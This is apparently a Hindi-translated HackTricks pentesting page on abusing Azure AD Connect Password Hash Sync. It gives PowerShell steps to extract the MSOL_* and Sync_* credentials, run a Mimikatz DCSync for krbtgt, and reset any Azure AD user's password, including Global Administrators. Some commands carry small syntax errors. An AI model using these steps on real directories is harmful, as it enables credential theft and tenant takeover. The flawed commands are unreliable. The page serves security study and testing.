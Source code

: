 # Az - PHS - Password Hash Sync

{{#include ../../../../banners/hacktricks-training.md}}

## Basic Information

[From the docs:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-phs) **Password hash synchronization** एक साइन-इन विधियों में से एक है जिसका उपयोग हाइब्रिड पहचान को पूरा करने के लिए किया जाता है। **Azure AD Connect** एक उपयोगकर्ता के पासवर्ड का हैश, हैश का हैश, एक ऑन-प्रिमिस एक्टिव डायरेक्टरी उदाहरण से एक क्लाउड-आधारित Azure AD उदाहरण में समन्वयित करता है।

<figure><img src="../../../../images/image (173).png" alt=""><figcaption></figcaption></figure>

यह कंपनियों द्वारा ऑन-प्रिम AD को Azure AD के साथ समन्वयित करने के लिए उपयोग की जाने वाली **सबसे सामान्य विधि** है।

सभी **उपयोगकर्ता** और **पासवर्ड हैश का हैश** ऑन-प्रिम से Azure AD में समन्वयित होते हैं। हालाँकि, **स्पष्ट-टेक्स्ट पासवर्ड** या **मूल** **हैश** Azure AD को नहीं भेजे जाते।\
इसके अलावा, **बिल्ट-इन** सुरक्षा समूह (जैसे डोमेन एडमिन...) **Azure AD में समन्वयित नहीं होते**।

**हैश समन्वयन** हर **2 मिनट** में होता है। हालाँकि, डिफ़ॉल्ट रूप से, **पासवर्ड समाप्ति** और **खाता** **समाप्ति** Azure AD में **समन्वयित नहीं होते**। इसलिए, एक उपयोगकर्ता जिसका **ऑन-प्रिम पासवर्ड समाप्त हो गया है** (बदला नहीं गया) वह पुराने पासवर्ड का उपयोग करके **Azure संसाधनों** तक पहुँच जारी रख सकता है।

जब एक ऑन-प्रिम उपयोगकर्ता Azure संसाधन तक पहुँच प्राप्त करना चाहता है, तो **प्रमाणीकरण Azure AD पर होता है**।

**PHS** की आवश्यकता होती है जैसे **Identity Protection** और AAD Domain Services के लिए।

## Pivoting

जब PHS कॉन्फ़िगर किया जाता है, तो कुछ **विशिष्ट खाते** स्वचालित रूप से **बनाए जाते हैं**:

- खाता **`MSOL_<installationID>`** स्वचालित रूप से ऑन-प्रिम AD में बनाया जाता है। इस खाते को **Directory Synchronization Accounts** भूमिका दी जाती है (देखें [documentation](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)) जिसका अर्थ है कि इसके पास **ऑन-प्रिम AD में पुनरुत्पादन (DCSync) अनुमतियाँ हैं**।
- एक खाता **`Sync_<name of on-prem ADConnect Server>_installationID`** Azure AD में बनाया जाता है। इस खाते को Azure AD में **किसी भी उपयोगकर्ता** (समन्वयित या केवल क्लाउड) का पासवर्ड **रीसेट** करने की अनुमति है।

इन दो पिछले विशेषाधिकार वाले खातों के पासवर्ड **SQL सर्वर में** संग्रहीत होते हैं जहाँ **Azure AD Connect स्थापित है।** व्यवस्थापक स्पष्ट-टेक्स्ट में उन विशेषाधिकार वाले उपयोगकर्ताओं के पासवर्ड निकाल सकते हैं।\
डेटाबेस `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf` में स्थित है।

एक टेबल से कॉन्फ़िगरेशन निकालना संभव है, जिसमें एक एन्क्रिप्टेड है:

`SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent;`

**एन्क्रिप्टेड कॉन्फ़िगरेशन** **DPAPI** के साथ एन्क्रिप्ट किया गया है और इसमें **`MSOL_*`** उपयोगकर्ता के पासवर्ड ऑन-प्रिम AD में और **Sync\_\*** का पासवर्ड AzureAD में शामिल है। इसलिए, इनका समझौता करने से AD और AzureAD में प्रिवेस्क करने की संभावना होती है।

आप इस [बातचीत में इन क्रेडेंशियल्स को कैसे संग्रहीत और डिक्रिप्ट किया जाता है, इसका पूरा अवलोकन पा सकते हैं](https://www.youtube.com/watch?v=JEIR5oGCwdg)。

### Finding the **Azure AD connect server**

यदि **सर्वर जहाँ Azure AD connect स्थापित है** डोमेन से जुड़ा है (जो दस्तावेज़ों में अनुशंसित है), तो इसे खोजने के लिए संभव है:
```bash
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
### MSOL\_\* का दुरुपयोग
```bash
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
> [!CAUTION]
> आप इन क्रेडेंशियल्स को प्राप्त करने के लिए [**adconnectdump**](https://github.com/dirkjanm/adconnectdump) का भी उपयोग कर सकते हैं।

### Sync\_\* का दुरुपयोग

**`Sync_*`** खाते से समझौता करने पर किसी भी उपयोगकर्ता (जिसमें Global Administrators शामिल हैं) का **पासवर्ड रीसेट** करना संभव है।
```bash
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
यह भी संभव है कि केवल **क्लाउड** उपयोगकर्ताओं के पासवर्ड को संशोधित किया जाए (भले ही यह अप्रत्याशित हो)।
```bash
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
इस उपयोगकर्ता का पासवर्ड डंप करना भी संभव है।

> [!CAUTION]
> एक और विकल्प होगा **एक सेवा प्रमुख को विशेषाधिकार प्राप्त अनुमतियाँ सौंपना**, जिसे **Sync** उपयोगकर्ता **अनुमतियाँ** देने के लिए सक्षम है, और फिर **उस सेवा प्रमुख तक पहुँच प्राप्त करना** एक प्रिवेस्क के तरीके के रूप में।

### Seamless SSO

PHS के साथ Seamless SSO का उपयोग करना संभव है, जो अन्य दुरुपयोगों के प्रति संवेदनशील है। इसे चेक करें:

{{#ref}}
seamless-sso.md
{{#endref}}

## संदर्भ

- [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
- [https://aadinternals.com/post/on-prem_admin/](https://aadinternals.com/post/on-prem_admin/)
- [https://troopers.de/downloads/troopers19/TROOPERS19_AD_Im_in_your_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19_AD_Im_in_your_cloud.pdf)
- [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

{{#include ../../../../banners/hacktricks-training.md}}
